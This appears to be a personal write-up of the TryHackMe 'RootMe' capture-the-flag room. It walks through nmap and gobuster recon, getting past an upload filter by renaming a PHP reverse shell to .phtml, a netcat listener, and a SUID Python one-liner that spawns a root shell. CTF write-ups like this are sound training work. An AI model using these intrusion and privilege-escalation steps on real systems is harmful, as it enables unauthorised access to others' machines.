

# RootMe - TryHackMe CTF

A CTF for beginners: get a shell, then get root. Short, clean, and it taught me two techniques I've already reused since: **file upload bypass** and **SUID privilege escalation**.
Note: flags are left out as always — do the room yourself, it's worth it.
[Link for the CTF](https://tryhackme.com/room/rrootme)

---

## Recon

Straightforward nmap scan with version detection:

```text
zero ❯ nmap -sV <machine-ip>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Two ports: SSH and HTTP. Apache 2.4.41 on Ubuntu.

## Finding the Upload Panel

Next, **gobuster** for directory enumeration with the `big.txt` wordlist:

```text
zero ❯ gobuster dir --wordlist=/usr/share/seclists/Discovery/Web-Content/big.txt --url http://<machine-ip>
/css                  (Status: 301)
/js                   (Status: 301)
/panel                (Status: 301)
```

A hidden `/panel/` directory — and it's a file upload form:


Upload portal + Apache = time to get a shell.

## File Upload Bypass

First attempt: upload a plain PHP reverse shell. Rejected — the panel has a blacklist blocking `.php`.

The bypass is almost embarrassingly simple: rename it to **`.phtml`**. The blacklist checks for `.php` but the server still executes `.phtml` as PHP. Upload accepted.

One gotcha I hit: the upload succeeded but my netcat listener sat there in silence. The panel told me where the file landed (`/panel/`), but the uploads actually get stored under `/uploads/`. I also had to check that `ufw` on my attack box wasn't dropping incoming traffic on `tun0`. Once the listener was actually reachable and I hit the right path, the shell connected:

```text
zero ❯ nc -lvnp 4444
Connection received on <machine-ip>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /var/www
$ cat user.txt
```

First flag, done as `www-data`.

## Privilege Escalation via SUID Python

Next, hunt for SUID binaries:

```text
$ find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/python
...
```

**`/usr/bin/python` with SUID** immediately looks weird — there's almost never a good reason for a Python interpreter to run as root.

GTFOBins has the recipe. Spawn a shell with preserved privileges:

```text
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# cat /root/root.txt
```

Root, second flag, room done.

## What I Learned

- Upload filters are usually a **client-side-style blacklist**: `.phtml` (or `.php5`, `.phar`) slips right past a `.php` check
- The upload directory and the storage directory are often different — enumerate both
- If your reverse shell listener is quiet, suspect your **own firewall** before the target
- `find / -user root -perm /4000` + GTFOBins is the fastest SUID privesc workflow
- An interpreter with SUID is a guaranteed red flag

---

**If you're trying this room too and get stuck, feel free to DM me or just throw commands at the wall like I did — eventually something sticks.**
